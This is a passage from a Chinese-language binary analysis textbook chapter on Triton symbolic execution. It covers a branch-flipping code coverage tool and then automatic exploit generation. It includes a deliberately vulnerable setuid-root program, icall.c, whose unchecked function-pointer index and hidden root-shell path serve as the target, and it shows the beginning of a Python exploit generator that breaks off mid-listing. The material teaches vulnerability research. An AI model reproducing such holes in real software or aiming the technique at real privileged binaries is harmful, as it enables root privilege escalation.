为了找到到达之前未探索分支方向的输入，`find_new_input` 向求解器提供必须满足的约束列表，以便到达目标分支，然后请求其返回一个满足这些约束条件的模型。回想一下，Triton 将约束表示为抽象语法树，因此为了编码分支约束，你需要构建相应的 AST。这就是为什么 `find_new_input` 首先调用 `api.getAstContext` 来获取对 `AstContext` 的引用（称为 `ast`）➊，这是 Triton 用于构建 AST 公式的类。

为了存储将模拟通向未探索分支方向的约束列表，`find_new_input` 使用一个 `triton::ast::AbstractNode` 对象，通过一个名为 `constraint_list` 的指针来访问 ➋。`AbstractNode` 是 Triton 用来表示 AST 节点的类。为了初始化 `constraint_list`，你将其设置为公式 `ast.equal(ast.bvtrue(), ast.bvtrue())`，即逻辑上的恒等式 `true == true`，其中每个 `true` 都是一个位向量。这仅仅是一种初始化约束列表的方法，使其成为一个语法上有效的公式，不强加任何约束，并且你可以很容易地向其中连接额外的约束。

##### 复制和翻转分支约束

接下来，`find_new_input` 调用 `api.getPathConstraints` 来获取 Triton 在模拟代码 ➌ 时积累的路径约束列表。该列表以 `std::vector` 类型的 `triton::engines::symbolic::PathConstraint` 对象形式出现，其中每个 `PathConstraint` 都与一个分支指令相关联。此列表包含必须满足的所有约束条件，以便走到刚才模拟的路径。为了将其转换为新路径的约束列表，你需要复制所有的约束，除了你想要更改的分支的约束，并将其翻转到另一个分支方向。

为实现此功能，`find_new_input`遍历路径约束列表 ➍ 并复制或翻转每个约束。在每个`PathConstraint`内部，Triton 存储一个或多个*分支约束*，每个约束代表一个可能的分支方向。在代码覆盖的背景下，你只对多路分支感兴趣，比如条件跳转，因为单路分支（如直接调用或无条件跳转）没有新的方向可供探索。要确定`PathConstraint`对象`pc`是否代表一个多路分支，可以调用`pc.isMultipleBranches` ➎，如果是多路分支，返回`true`。

对于包含多个分支约束的`PathConstraint`对象，`find_new_input`通过调用`pc.getBranchConstraints`获取所有分支约束，然后遍历列表中的每个约束 ➏。每个约束都是一个元组，包含一个布尔标志、一个源地址和目标地址（均为`triton::uint64`类型），以及一个表示分支约束的 AST。该标志表示在仿真过程中，分支约束所表示的分支方向是否被采用。例如，考虑以下条件分支：

```
4055dc:       3c 25                    cmp     al,0x25
 4055de:       0f 8d f4 00 00 00        jge     4056d8
```

在仿真`jge`时，Triton 创建一个包含两个分支约束的`PathConstraint`对象。假设第一个分支约束表示`jge`的*采用*方向（即，当条件成立时，所采用的方向），并且这是仿真中采用的方向。这意味着`PathConstraint`中存储的第一个分支约束的标志为`true`（因为它在仿真中被采用），源地址和目标地址分别为`0x4055de`（`jge`的地址）和`0x4056d8`（`jge`的目标地址）。该分支条件的 AST 将编码条件`al` ≥ `0x25`。第二个分支约束的标志为`false`，表示仿真中未采用的分支方向。源地址和目标地址分别为`0x4055de`和`0x4055e4`（`jge`的后续地址），AST 编码条件为`al` < `0x25`（或者更精确地，`not(al` ≥ `0x25)`）。

现在，对于每个`PathConstraint`，`find_new_input`复制标志为`true`的分支约束，除了与要翻转的分支指令相关联的`PathConstraint`，对于这个分支，它复制标志为`false`的分支约束，从而反转该分支决策。为了识别要翻转的分支，`find_new_input`使用分支的源地址。对于源地址不等于要翻转分支地址的约束 ➐，它复制标志为`true`的分支约束 ➑ 并使用逻辑与（`ast.land`实现）将其附加到`constraint_list`。

##### 从约束求解器获取模型

最后，`find_new_input`将遇到与您想要翻转的分支关联的`PathConstraint`。它包含多个分支约束，源地址等于要翻转的分支地址 ➒。为了清晰地显示`code_coverage`输出中的所有可能分支方向，`find_new_input`会打印每个分支条件及其匹配的源地址，无论其标志如何。

如果标志为`true`，则`find_new_input` *不会*将分支约束追加到`constraint_list`中，因为它对应的是你已经探索过的分支方向。然而，如果标志为`false` ➓，它表示尚未探索的分支方向，因此`find_new_input`会将此分支约束追加到约束列表中，并通过调用`api.getModel`将列表传递给约束求解器。

`getModel`函数调用约束求解器 Z3，并请求它返回一个满足约束列表的模型。如果找到模型，`getModel`会以`std::map`形式返回该模型，该映射将 Triton 符号变量标识符映射到`triton::engines::solver::SolverModel`对象。该模型表示一组新的具体输入，这些输入会导致程序走上之前未探索的分支方向。如果没有找到模型，则返回的映射为空。

每个`SolverModel`对象包含约束求解器分配给模型中相应符号变量的具体值。`code_coverage`工具通过遍历该映射并打印每个符号变量的 ID 和注释来向用户报告模型，注释包含相应寄存器或内存位置的可读名称，以及模型中分配的具体值（由`SolverModel::getValue`返回）。

要了解如何在实践中使用`code_coverage`的输出，接下来让我们在一个测试程序中尝试它，找到并使用新的输入来覆盖你选择的分支。

#### *13.4.3 测试代码覆盖工具*

清单 13-8 显示了一个简单的测试程序，您可以使用它来尝试`code_coverage`生成探索新分支方向输入的功能。

*清单 13-8:* branch.c

```
   #include <stdio.h>
   #include <stdlib.h>

   void
   branch(int x, int y)
   {
➊   if(x < 5) {
➋     if(y == 10) printf("x < 5 && y == 10\n");
       else        printf("x < 5 && y != 10\n");
     } else {
       printf("x >= 5\n");
     }
   }

   int
   main(int argc, char *argv[])
   {
     if(argc < 3) {
       printf("Usage: %s <x> <y>\n", argv[0]);
       return 1;
     }

➌   branch(strtol(argv[1], NULL, 0), strtol(argv[2], NULL, 0));

     return 0;
   }
```

如您所见，`branch`程序包含一个名为`branch`的函数，该函数接受两个整数`x`和`y`作为输入。`branch`函数包含一个外部的`if`/`else`分支，根据`x`的值 ➊ 进行判断，还有一个嵌套的`if`/`else`分支，根据`y`的值 ➋ 进行判断。该函数由`main`调用，`x`和`y`参数来自用户输入 ➌。

让我们首先使用`x = 0`和`y = 0`运行`branch`，以便外部分支走`if`方向，而嵌套分支走`else`方向。然后，您可以使用`code_coverage`查找输入，以翻转嵌套分支，使其走`if`方向。但首先，让我们构建运行`code_coverage`所需的符号配置文件。

##### 构建符号配置文件

要使用`code_coverage`，你需要一个符号配置文件，而要制作该文件，你需要知道编译后的`branch`函数使用了哪些寄存器和内存位置。列表 13-9 展示了`branch`函数的反汇编代码。让我们分析一下它，找出`branch`函数使用的寄存器和内存位置。

*列表 13-9：* 来自~/code/chapter13/branch 的反汇编片段

```
   $ objdump -M intel -d ./branch
   ...
   00000000004005b6 <branch>:
     4005b6:  55               push   rbp
     4005b7:  48 89 e5         mov    rbp,rsp
     4005ba:  48 83 ec 10      sub    rsp,0x10
➊   4005be:  89 7d fc         mov    DWORD PTR [rbp-0x4],edi
➋   4005c1:  89 75 f8         mov    DWORD PTR [rbp-0x8],esi
➌   4005c4:  83 7d fc 04      cmp    DWORD PTR [rbp-0x4],0x4
➍   4005c8:  7f 1e            jg     4005e8 <branch+0x32>
➎   4005ca:  83 7d f8 0a      cmp    DWORD PTR [rbp-0x8],0xa
➏   4005ce:  75 0c            jne    4005dc <branch+0x26>
     4005d0:  bf 04 07 40 00   mov    edi,0x400704
     4005d5:  e8 96 fe ff ff   call   400470 <puts@plt>
     4005da:  eb 16            jmp    4005f2 <branch+0x3c>
     4005dc:  bf 15 07 40 00   mov    edi,0x400715
     4005e1:  e8 8a fe ff ff   call   400470 <puts@plt>
     4005e6:  eb 0a            jmp    4005f2 <branch+0x3c>
     4005e8:  bf 26 07 40 00   mov    edi,0x400726
     4005ed:  e8 7e fe ff ff   call   400470 <puts@plt>
     4005f2:  c9               leave
     4005f3:  c3               ret
   ...
```

虚拟机上的 Ubuntu 安装使用的是 x64 版本的 System V *应用二进制接口（ABI）*，它规定了系统使用的*调用约定*。在 x64 系统的 System V 调用约定中，函数调用的第一个和第二个参数分别存储在`rdi`和`rsi`寄存器中。^(6) 在这种情况下，这意味着你可以在`rdi`中找到`branch`函数的`x`参数，在`rsi`中找到`y`参数。在内部，`branch`函数立即将`x`值移到内存位置`rbp-0x4`➊，将`y`值移到`rbp-0x8`➋。然后，`branch`将包含`x`的第一个内存位置与值 4 进行比较➌，接着在地址`0x4005c8`处进行`jg`跳转，实施外部`if`/`else`分支➍。

`jg`的目标地址`0x4005e8`包含`else`分支（`x` ≥ `5`），而跳转地址`0x4005ca`包含`if`分支。在`if`分支内部是嵌套的`if`/`else`分支，它通过`cmp`指令比较`y`的值与 10（`0xa`）➎，接着是一个`jne`指令，如果`y` ≠ 10，则跳转到`0x4005dc`➏（即嵌套的`else`分支），否则跳转到`0x4005d0`（即嵌套的`if`分支）。

现在你已经知道了哪些寄存器包含`x`和`y`的输入，以及嵌套分支的地址`0x4005ce`，接下来我们来创建符号配置文件。列表 13-10 展示了用于测试的配置文件。

*列表 13-10：* branch.map

```
➊ %rdi=$
  %rdi=0
➋ %rsi=$
  %rsi=0
```

配置文件将`rdi`（代表`x`）设为符号，并为其分配具体值 0➊。它对`rsi`（包含`y`）也做了同样的处理➋。由于`x`和`y`都是符号，当你为新输入生成模型时，约束求解器将为`x`和`y`提供具体的值。

##### 生成新输入

回想一下，符号配置文件将`x`和`y`的值都赋为 0，这为`code_coverage`生成覆盖不同路径的新输入提供了基准。当你使用这些基准输入运行`branch`程序时，它会打印消息`x < 5 && y != 10`，如下所示：

```
$ ./branch 0 0
x < 5 && y != 10
```

现在我们使用`code_coverage`生成新的输入，改变检查`y`值的嵌套`branch`，这样你就可以使用这些新输入重新运行`branch`，并得到输出`x < 5 && y == 10`。列表 13-11 展示了如何操作。

*列表 13-11：查找输入以选择备用分支，位于* 0x4005ce

```
➊ $ ./code_coverage branch branch.map 0x4005b6 0x4005ce
   evaluating branch 0x4005ce:
➋      0x4005ce -> 0x4005dc (taken)
➌      0x4005ce -> 0x4005d0 (not taken)
➍      computing new input for 0x4005ce -> 0x4005d0
➎        SymVar 0 (rdi) = 0x0
          SymVar 1 (rsi) = 0xa
```

你调用`code_coverage`，将`branch`程序作为输入，以及你制作的符号配置文件（`branch.map`），`branch`函数的起始地址`0x4005b6`（分析的入口点），以及嵌套分支的地址`0x4005ce`来触发翻转 ➊。

当仿真程序到达该分支地址时，`code_coverage`会评估并打印 Triton 作为该分支的`PathConstraint`生成的每个分支约束。第一个约束是针对目标地址`0x4005dc`（嵌套的`else`分支）方向的，该方向在仿真过程中由于你在配置文件中指定的具体输入值而被选中 ➋。正如`code_coverage`所报告的，指向目标地址`0x4005d0`（嵌套的`if`分支）的顺序分支方向没有被选中 ➌，因此`code_coverage`尝试计算新的输入值，以便引导到该分支方向 ➍。

虽然通常需要的约束求解可能会花费一些时间，但对于像这种简单的约束，它应该只需要几秒钟就能完成。一旦求解器找到模型，`code_coverage`会将其打印到屏幕上 ➎。正如你所看到的，模型为`rdi`（`x`）赋值为具体值 0，`rsi`（`y`）赋值为`0xa`。

让我们使用这些新输入运行`branch`程序，看看它们是否会导致嵌套分支翻转。

```
$ ./branch 0 0xa
x < 5 && y == 10
```

使用这些新输入，`branch`输出了`x < 5 && y == 10`，而不是你在之前运行`branch`程序时得到的消息`x < 5 && y != 10`。`code_coverage`生成的输入成功翻转了嵌套分支的方向！

### 13.5 自动利用漏洞

现在让我们来看一个比之前例子更复杂的约束求解示例。在本节中，你将学习如何使用 Triton 自动生成输入，通过劫持间接调用点并将其重定向到你选择的地址，从而利用程序中的漏洞。

假设你已经知道存在一个漏洞，允许你控制调用点的目标地址，但你还不知道如何利用它来达到你想要的地址，因为目标地址是通过用户输入以非平凡的方式计算出来的。这种情况在实际的模糊测试中可能会遇到，例如。

正如你在第十二章中学到的那样，符号执行对于暴力破解的模糊测试方法来说计算开销太大，因为它试图为程序中的每一个间接调用点找到漏洞。相反，你可以通过首先以更传统的方式进行模糊测试，向程序提供许多伪随机生成的输入，并使用污点分析来确定这些输入是否影响了程序的危险状态，例如间接调用点。然后，你可以使用符号执行仅为那些污点分析已显示为可能可控的调用点生成漏洞。这是我在下面示例中假设的使用案例。

#### *13.5.1 易受攻击的程序*

首先，让我们来看一下要利用的程序及其包含的易受攻击的调用点。清单 13-12 展示了易受攻击程序的源文件*icall.c*。*Makefile*将程序编译成一个名为`icall`的`setuid root`二进制文件^(7)，其中包含一个间接调用点，该调用点会调用多个处理函数中的一个。这类似于像`nginx`这样的 Web 服务器如何使用函数指针来选择适当的处理程序来处理它们接收到的数据。

*清单 13-12:* icall.c

```
   #include <stdio.h>
   #include <stdlib.h>
   #include <string.h>
   #include <unistd.h>
   #include <crypt.h>

   void forward (char *hash);
   void reverse (char *hash);
   void hash    (char *src, char *dst);

➊ static struct {
     void (*functions[2])(char *);
     char hash[5];
   } icall;

   int
   main(int argc, char *argv[])
   {
     unsigned i;

➋   icall.functions[0] = forward;
     icall.functions[1] = reverse;

     if(argc < 3) {
       printf("Usage: %s <index> <string>\n", argv[0]);
       return 1;
     }

➌    if(argc > 3 && !strcmp(crypt(argv[3], "$1$foobar"), "$1$foobar$Zd2XnPvN/dJVOseI5/5Cy1")) {
        /* secret admin area */
        if(setgid(getegid())) perror("setgid");
        if(setuid(geteuid())) perror("setuid");
        execl("/bin/sh", "/bin/sh", (char*)NULL);
➍    } else {
➎      hash(argv[2], icall.hash);
➏      i = strtoul(argv[1], NULL, 0);

        printf("Calling %p\n", (void*)icall.functions[i]);
➐      icall.functionsi;
     }

     return 0;
   }

   void
   forward(char *hash)
   {
     int i;

     printf("forward: ");
     for(i = 0; i < 4; i++) {
       printf("%02x", hash[i]);
    }
    printf("\n");
   }

   void
   reverse(char *hash)
   {
     int i;

     printf("reverse: ");
     for(i = 3; i >= 0; i--) {
       printf("%02x", hash[i]);
     }
     printf("\n");
   }

   void
   hash(char *src, char *dst)
   {
     int i, j;

     for(i = 0; i < 4; i++) {
       dst[i] = 31 + (char)i;
       for(j = i; j < strlen(src); j += 4) {
         dst[i] ˆ= src[j] + (char)j;
         if(i > 1) dst[i] ˆ= dst[i-2];
       }
     }
     dst[4] = '\0';
   }
```

`icall`程序围绕一个全局的`struct`展开，这个`struct`也叫`icall` ➊。这个`struct`包含一个名为`icall.functions`的数组，能够容纳两个函数指针，还有一个名为`icall.hash`的`char`数组，存储一个带有终止`NULL`字符的 4 字节哈希值。`main`函数初始化了`icall.functions`中的第一个条目，使其指向一个名为`forward`的函数，并初始化第二个条目，使其指向`reverse` ➋。这两个函数都接受一个以`char*`形式传递的哈希参数，并分别按正向或反向顺序打印哈希的字节。

`icall`程序接受两个命令行参数：一个整数索引和一个字符串。索引决定了将调用`icall.functions`中的哪一项，而字符串则作为输入来生成哈希值，正如你接下来会看到的。

还有一个未在使用字符串中显示的秘密第三个命令行参数。这个参数是一个管理员区域的密码，提供 root shell。为了检查密码，`icall`使用 GNU `crypt`函数（来自*crypt.h*）对其进行哈希处理，如果哈希值正确，用户将被授予访问 root shell 的权限 ➌。我们利用漏洞的目标是劫持一个间接调用点，并将其重定向到这个秘密的管理员区域，而无需知道密码。

如果没有提供秘密密码 ➍，`icall`会调用一个名为`hash`的函数，它对用户提供的字符串计算一个 4 字节的哈希，并将该哈希存放在`icall.hash`中 ➎。计算哈希后，`icall`解析命令行中的索引 ➏，并用它来索引`icall.functions`数组，间接调用该索引处的处理程序，并将刚刚计算出的哈希作为参数传递 ➐。这个间接调用将是我在利用程序中使用的调用。为了进行诊断，`icall`会打印它即将调用的函数的地址，这在后续构建漏洞利用程序时将非常有用。

通常，间接调用会调用`forward`或`reverse`，然后按如下方式将哈希值打印到屏幕上：

```
➊ $ ./icall 1 foo
➋ Calling 0x400974
➌ reverse: 22295079
```

在这里，我使用了`1`作为函数索引，导致调用`reverse`函数，并将`foo`作为输入字符串 ➊。你可以看到，间接调用的目标地址是`0x400974`（`reverse`的起始地址） ➋，而`foo`的哈希值，反向打印后为`0x22295079` ➌。

你可能已经注意到，间接调用是有漏洞的：没有验证用户提供的索引是否在`icall.functions`的范围内，因此通过提供超出范围的索引，用户可以诱使`icall`程序使用*超出*`icall.functions`数组的数据作为间接调用目标！实际上，`icall.hash`字段在内存中紧挨着`icall.functions`，所以通过提供超出范围的索引 2，用户可以诱使`icall`程序将`icall.hash`作为间接调用目标，正如你在以下清单中看到的那样：

```
   $ ./icall 2 foo
➊ Calling 0x22295079
➋ Segmentation fault (core dumped)
```

请注意，被调用的地址对应的是作为小端地址解释的哈希值 ➊！该地址没有代码，因此程序会因段错误而崩溃 ➋。然而，回想一下，用户不仅控制索引，还控制作为哈希输入的字符串。挑战在于找到一个字符串，它的哈希值恰好对应秘密管理员区域的地址，然后诱使间接调用使用该哈希作为调用目标，从而将控制权转移到管理员区域，并在不需要知道密码的情况下获取 root shell。

要手动构造此漏洞的利用程序，你需要使用暴力破解或者反向工程`hash`函数，找出哪个输入字符串可以生成所需的哈希值。使用 symbex 来生成漏洞利用程序的好处是，它会自动解决`hash`函数，让你可以将其视为一个黑箱！

#### *13.5.2 查找漏洞调用站点的地址*

自动构建漏洞利用程序需要两个关键信息：漏洞的间接调用站点的地址，以及要重定向控制的秘密管理员区域的地址。清单 13-13 显示了`icall`二进制文件中`main`函数的反汇编，其中包含了这两个地址。

*清单 13-13：来自* ~/code/chapter13/icall 的反汇编摘录

```
   0000000000400abe <main>:
     400abe:  55                    push   rbp
     400abf:  48 89 e5              mov    rbp,rsp
     400ac2:  48 83 ec 20           sub    rsp,0x20
     400ac6:  89 7d ec              mov    DWORD PTR [rbp-0x14],edi
     400ac9:  48 89 75 e0           mov    QWORD PTR [rbp-0x20],rsi
     400acd:  48 c7 05 c8 15 20 00  mov    QWORD PTR [rip+0x2015c8],0x400916
     400ad4:  16 09 40 00
     400ad8:  48 c7 05 c5 15 20 00  mov    QWORD PTR [rip+0x2015c5],0x400974
     400adf:  74 09 40 00
     400ae3:  83 7d ec 02           cmp    DWORD PTR [rbp-0x14],0x2
     400ae7:  7f 23                 jg     400b0c <main+0x4e>
     400ae9:  48 8b 45 e0           mov    rax,QWORD PTR [rbp-0x20]
     400aed:  48 8b 00              mov    rax,QWORD PTR [rax]
     400af0:  48 89 c6              mov    rsi,rax
     400af3:  bf a1 0c 40 00        mov    edi,0x400ca1
     400af8:  b8 00 00 00 00        mov    eax,0x0
     400afd:  e8 5e fc ff ff        call   400760 <printf@plt>
     400b02:  b8 01 00 00 00        mov    eax,0x1
     400b07:  e9 ea 00 00 00        jmp    400bf6 <main+0x138>
     400b0c:  83 7d ec 03           cmp    DWORD PTR [rbp-0x14],0x3
     400b10:  7e 78                 jle    400b8a <main+0xcc>
     400b12:  48 8b 45 e0           mov    rax,QWORD PTR [rbp-0x20]
     400b16:  48 83 c0 18           add    rax,0x18
     400b1a:  48 8b 00              mov    rax,QWORD PTR [rax]
     400b1d:  be bd 0c 40 00        mov    esi,0x400cbd
     400b22:  48 89 c7              mov    rdi,rax
     400b25:  e8 56 fc ff ff        call   400780 <crypt@plt>
     400b2a:  be c8 0c 40 00        mov    esi,0x400cc8
     400b2f:  48 89 c7              mov    rdi,rax
     400b32:  e8 69 fc ff ff        call   4007a0 <strcmp@plt>
     400b37:  85 c0                 test   eax,eax
     400b39:  75 4f                 jne    400b8a <main+0xcc>
➊   400b3b:  e8 70 fc ff ff        call   4007b0 <getegid@plt>
     400b40:  89 c7                 mov    edi,eax
➋   400b42:  e8 79 fc ff ff        call   4007c0 <setgid@plt>
     400b47:  85 c0                 test   eax,eax
     400b49:  74 0a                 je     400b55 <main+0x97>
     400b4b:  bf e9 0c 40 00        mov    edi,0x400ce9
     400b50:  e8 7b fc ff ff        call   4007d0 <perror@plt>
     400b55:  e8 16 fc ff ff        call   400770 <geteuid@plt>
     400b5a:  89 c7                 mov    edi,eax
➌   400b5c:  e8 8f fc ff ff        call   4007f0 <setuid@plt>
     400b61:  85 c0                 test   eax,eax
     400b63:  74 0a                 je     400b6f <main+0xb1>
     400b65:  bf f0 0c 40 00        mov    edi,0x400cf0
     400b6a:  e8 61 fc ff ff        call   4007d0 <perror@plt>
     400b6f:  ba 00 00 00 00        mov    edx,0x0
     400b74:  be f7 0c 40 00        mov    esi,0x400cf7
     400b79:  bf f7 0c 40 00        mov    edi,0x400cf7
     400b7e:  b8 00 00 00 00        mov    eax,0x0
➍   400b83:  e8 78 fc ff ff        call   400800 <execl@plt>
     400b88:  eb 67                 jmp    400bf1 <main+0x133>
     400b8a:  48 8b 45 e0           mov    rax,QWORD PTR [rbp-0x20]
     400b8e:  48 83 c0 10           add    rax,0x10
     400b92:  48 8b 00              mov    rax,QWORD PTR [rax]
     400b95:  be b0 20 60 00        mov    esi,0x6020b0
     400b9a:  48 89 c7              mov    rdi,rax
     400b9d:  e8 30 fe ff ff        call   4009d2 <hash>
     400ba2:  48 8b 45 e0           mov    rax,QWORD PTR [rbp-0x20]
     400ba6:  48 83 c0 08           add    rax,0x8
     400baa:  48 8b 00              mov    rax,QWORD PTR [rax]
     400bad:  ba 00 00 00 00        mov    edx,0x0
     400bb2:  be 00 00 00 00        mov    esi,0x0
     400bb7:  48 89 c7              mov    rdi,rax
     400bba:  e8 21 fc ff ff        call   4007e0 <strtoul@plt>
     400bbf:  89 45 fc              mov    DWORD PTR [rbp-0x4],eax
     400bc2:  8b 45 fc              mov    eax,DWORD PTR [rbp-0x4]
     400bc5:  48 8b 04 c5 a0 20 60  mov    rax,QWORD PTR [rax*8+0x6020a0]
     400bcc:  00      
     400bcd:  48 89 c6              mov    rsi,rax
     400bd0:  bf ff 0c 40 00        mov    edi,0x400cff
     400bd5:  b8 00 00 00 00        mov    eax,0x0
     400bda:  e8 81 fb ff ff        call   400760 <printf@plt>
     400bdf:  8b 45 fc              mov    eax,DWORD PTR [rbp-0x4]
     400be2:  48 8b 04 c5 a0 20 60  mov    rax,QWORD PTR [rax*8+0x6020a0]
     400be9:  00
     400bea:  bf b0 20 60 00        mov    edi,0x6020b0
➎   400bef: ff d0                  call   rax
     400bf1:  b8 00 00 00 00        mov    eax,0x0
     400bf6:  c9                    leave
     400bf7:  c3                    ret
     400bf8:  0f 1f 84 00 00 00 00  nop    DWORD PTR [rax+rax*1+0x0]
     400bff:  00
```

秘密管理员区域的代码从地址 `0x400b3b` ➊ 开始，所以你要将控制流重定向到这个地址。你可以通过对 `setgid` ➋ 和 `setuid` ➌ 的调用来判断这是管理员区域，其中 `icall` 为 shell 准备 `root` 权限，接着通过对 `execl` ➍ 的调用来生成 shell 本身。需要劫持的间接调用位置位于地址 `0x400bef` ➎。

现在你已经有了必要的地址，接下来让我们构建符号执行工具来生成漏洞利用。

#### *13.5.3 构建漏洞利用生成器*

简单来说，生成漏洞利用的工具通过并行符号执行 `icall` 程序，符号化用户给定的所有命令行参数，每个输入字节对应一个独立的符号变量。然后它会追踪这个符号状态，从程序开始一直追踪到 `hash` 函数，直到执行最终到达间接调用位置进行利用。此时，漏洞利用生成器会调用约束求解器，询问是否存在某种将符号变量赋值为具体值的方式，使得间接调用目标（存储在 `rax` 中）等于秘密管理员区域的地址。如果这样的模型存在，漏洞利用生成器会将其打印到屏幕上，然后你就可以使用这些值作为输入来利用 `icall` 程序。

注意，与之前的示例不同，这个示例使用的是 Triton 的并行符号执行模式（concolic mode），而不是符号仿真模式（symbolic emulation mode）。原因是生成漏洞利用需要追踪符号状态，通过整个程序跨多个函数进行追踪，而在仿真模式下这样做既不方便又很慢。此外，并行符号执行模式使得试验不同输入字符串长度变得更加容易。

与本书中的大多数示例不同，这个示例使用的是 Python 编写的，因为 Triton 的并行符号执行模式仅允许使用 Python API。并行符号执行 Triton 工具是 Python 脚本，你需要将其传递给一个特殊的 Pin 工具，该工具提供 Triton 的并行符号引擎。Triton 提供了一个名为 `triton` 的包装脚本，它会自动处理调用 Pin 的所有细节，所有你需要做的就是指定使用哪个 Triton 工具和分析哪个程序。你可以在 *~/triton/pin-2.14-71313-gcc.4.4.7-linux/ source/tools/Triton/build* 找到 `triton` 包装脚本，并且在测试自动漏洞利用生成工具时会看到如何使用它的示例。

##### 设置并行符号执行

Listing 13-14 显示了漏洞利用生成工具的第一部分，*exploit_callsite.py*。

*Listing 13-14:* exploit_callsite.py

```
   #!/usr/bin/env python2
   ## -*- coding: utf-8 -*-

➊ import triton
   import pintool

➋ taintedCallsite = 0x400bef # Found in a previous DTA pass
   target          = 0x400b3b # Target to redirect callsite to

➌ Triton = pintool.getTritonContext()

   def main():
➍     Triton.setArchitecture(triton.ARCH.X86_64)
       Triton.enableMode(triton.MODE.ALIGNED_MEMORY, True)

➎     pintool.startAnalysisFromSymbol('main')

➏     pintool.insertCall(symbolize_inputs, pintool.INSERT_POINT.ROUTINE_ENTRY, 'main')
➐     pintool.insertCall(hook_icall, pintool.INSERT_POINT.BEFORE)

➑     pintool.runProgram()

   if __name__ == '__main__':
       main()
```

类似于 *exploit_callsite.py* 的符号执行 Triton 工具必须导入 `triton` 和 `pintool` 模块 ➊，这两个模块分别提供了对熟悉的 Triton API 和 Triton 与 Pin 交互的绑定的访问。遗憾的是，无法将命令行参数传递给符号执行 Triton 工具，因此我将你正在利用的间接调用站点（`taintedCallsite`）的地址和你想要重定向控制的秘密管理员区域（`target`）的地址 ➋ 硬编码在了代码中。`taintedCallsite` 变量的命名来源于假设你在之前的污点分析中找到了这个调用站点。作为硬编码参数的替代方法，你也可以通过环境变量传递参数。

符号执行 Triton 工具在一个全局的 Triton 上下文中维护符号执行状态，你可以通过调用 `pintool.getTritonContext()` ➌ 来访问该上下文。这将返回一个 `TritonContext` 对象，你可以使用它来访问（部分）熟悉的 Triton API 函数。在这里，*exploit_callsite.py* 将对该 `TritonContext` 的引用存储在一个名为 `Triton` 的全局变量中，以便于访问。

*exploit_callsite.py* 的主要逻辑从一个名为 `main` 的函数开始，该函数在脚本启动时被调用。就像你之前看到的 C++ 符号仿真工具一样，它首先通过设置 Triton 架构并启用 `ALIGNED_MEMORY` 优化 ➍ 来启动。由于该工具是专门针对你正在利用的 `icall` 二进制文件定制的，我将架构硬编码为 x86-64，而没有使其可配置。

接下来，*exploit_callsite.py* 使用 Triton 的 `pintool` API 设置符号执行分析的起点。它告诉 Triton 从脆弱的 `icall` 程序中的 `main` 函数开始符号分析 ➎。也就是说，所有在 `main` 之前的 `icall` 初始化代码都不进行符号分析，Triton 的分析将在执行到 `main` 时启动。

请注意，这假设符号是可用的；如果符号不可用，那么 Triton 就不知道 `main` 函数在哪里。在这种情况下，你必须通过反汇编自行找到 `main` 的地址，并告诉 Triton 从该地址开始分析，方法是调用 `pintool.startAnalysisFromAddress` 而不是 `pintool.startAnalysisFromSymbol`。

配置完分析起始点后，*exploit_callsite.py* 使用 Triton 的 `pintool.insertCall` 函数注册了两个回调。`pintool.insertCall` 函数至少需要两个参数：一个回调函数和一个 *插入点*，之后可以根据插入点的类型传递零个或多个可选参数。

第一个安装的回调函数名为 `symbolize_inputs`，它使用插入点 `INSERT_POINT.ROUTINE_ENTRY` ➏，意味着回调会在执行到指定例程的入口点时触发。你可以通过额外的参数在 `insertCall` 中指定该例程的名称。在 `symbolize_inputs` 的情况下，我指定了 `main` 作为安装回调的例程，因为 `symbolize_inputs` 的目的是符号化传递给 `icall` 的 `main` 函数的所有用户输入。当发生 `ROUTINE_ENTRY` 类型的回调时，Triton 会将当前线程的 ID 作为参数传递给回调函数。

第二个回调函数名为 `hook_icall`，它安装在插入点 `INSERT_POINT.BEFORE` ➐，意味着回调函数会在每条指令执行前触发。`hook_icall` 的任务是检查执行是否已经到达易受攻击的间接调用位置，如果是，根据符号分析的结果生成相应的利用代码。当回调函数触发时，Triton 会向 `hook_icall` 提供一个 `Instruction` 参数，表示即将执行的指令的详细信息，这样 `hook_icall` 就可以检查它是否为你想要利用的间接调用指令。表 13-1 展示了 Triton 支持的所有可能插入点的概览。

**表 13-1:** Triton 符号执行模式下回调的插入点

| **插入点** | **回调时刻** | **参数** | **回调参数** |
| --- | --- | --- | --- |
| `AFTER` | 指令执行之后 |  | `Instruction` 对象 |
| `BEFORE` | 指令执行之前 |  | `Instruction` 对象 |
| `BEFORE_SYMPROC` | 符号处理之前 |  | `Instruction` 对象 |
| `FINI` | 执行结束 |  |  |
| `ROUTINE_ENTRY` | 程序例程入口 | 例程名称 | 线程 ID |
| `ROUTINE_EXIT` | 程序例程退出 | 例程名称 | 线程 ID |
| `IMAGE_LOAD` | 新镜像加载 |  | 镜像路径，基地址，大小 |
| `SIGNALS` | 信号传递 |  | 线程 ID，信号 ID |
| `SYSCALL_ENTRY` | 系统调用前 |  | 线程 ID，系统调用描述符 |
| `SYSCALL_EXIT` | 系统调用后 |  | 线程 ID，系统调用描述符 |

最后，在完成必要的设置之后，*exploit_callsite.py* 调用 `pintool.runProgram` 来开始执行分析过的程序 ➑。这完成了对 `icall` 程序进行符号执行分析所需的所有设置，但我还没有讨论生成实际利用代码的部分。现在让我们来讨论回调处理函数 `symbolize_inputs` 和 `hook_icall`，它们分别实现了用户输入的符号化和调用点的利用。

##### 符号化用户输入

清单 13-15 展示了`symbolize_inputs`的实现，这是当程序执行到分析的`main`函数时调用的处理程序。根据表 13-1，`symbolize_inputs`接收一个线程 ID 参数，因为它是`ROUTINE_ENTRY`插入点的回调函数。为了本示例的目的，你无需了解线程 ID，可以直接忽略它。如前所述，`symbolize_inputs`会将用户提供的所有命令行参数符号化，以便求解器稍后可以计算如何操作这些符号变量来构造一个漏洞利用。

*清单 13-15：* exploit_callsite.py *(续)*

```
   def symbolize_inputs(tid):
➊     rdi = pintool.getCurrentRegisterValue(Triton.registers.rdi) # argc
       rsi = pintool.getCurrentRegisterValue(Triton.registers.rsi) # argv

       # for each string in argv
➋     while rdi > 1:
➌         addr = pintool.getCurrentMemoryValue(
           rsi + ((rdi-1)*triton.CPUSIZE.QWORD),
 triton.CPUSIZE.QWORD)
       # symbolize current argument string (including terminating NULL)
       c = None
       s = ''
➍     while c != 0:
➎         c = pintool.getCurrentMemoryValue(addr)
           s += chr(c)
➏         Triton.setConcreteMemoryValue(addr, c)
➐         Triton.convertMemoryToSymbolicVariable(
                   triton.MemoryAccess(addr, triton.CPUSIZE.BYTE)
               ).setComment('argv[%d][%d]' % (rdi-1, len(s)-1))
           addr += 1
       rdi -= 1
